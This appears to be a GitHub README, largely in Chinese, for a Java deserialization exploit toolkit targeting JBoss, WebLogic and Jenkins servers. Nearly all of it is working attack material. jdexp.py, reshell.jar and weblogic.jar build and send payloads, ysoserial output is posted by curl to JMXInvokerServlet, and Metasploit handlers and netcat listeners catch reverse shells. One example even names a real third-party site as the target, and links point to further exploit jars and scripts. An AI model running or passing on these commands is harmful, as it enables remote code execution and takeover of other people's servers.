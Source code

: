 ## JavaDeserialization


 
用reshell.jar生成反弹shell的payload，然后jdexp.py执行。

```
▶ python jdexp.py -h
usage: jdexp.py [-h] [-jboss] [-weblogic] host port payload

……

positional arguments:
  host        remote domain/IP
  port        remote port
  payload     local payload file

optional arguments:
  -h, --help  show this help message and exit
  -jboss      hack jboss
  -weblogic   hack weblogic
```

```
example:

	▶ nc -vvlp 888
	▶ java -jar reshell.jar [ReverseIP] 888 /tmp/payload
	
	▶ python jdexp.py -weblogic [RemoteIP] 7001 /tmp/payload
	▶ python jdexp.py -jboss [RemoteIP] 80 /tmp/payload
```

###下面的不用管了，jdexp.py可以完美代替。 
--

###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  
JBossExploit運行需要外網地址。  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

####三
可眎化Jboss執行命令並回顯工具：  
[JBOSS_EXP.jar](http://www.freebuf.com/tools/88908.html)


###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
已打包為weblogic.jar，iswin.jar下載地址為~~原作者提供~~我的地址，有需要重新編譯源碼替換class就好啦。   
~~替換成[github](https://github.com/hackzx/JavaDeserialization/raw/master/iswin.jar)的jar。~~測試不能。

```
usage:  
  java -jar weblogic.jar [ip/domain] [port] [out_payload_file]

```

```
▶ java -jar weblogic.jar [ReverseIP] 888 /tmp/payload
▶ python weblogic.py [TargetIP] 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

[weblogic.jar](https://github.com/hackzx/JavaDeserialization/raw/master/weblogic.jar)  
[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

###jenkins

https://github.com/CaledoniaProject/jenkins-cli-exploit  


--

更多更多的鏈接：  
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  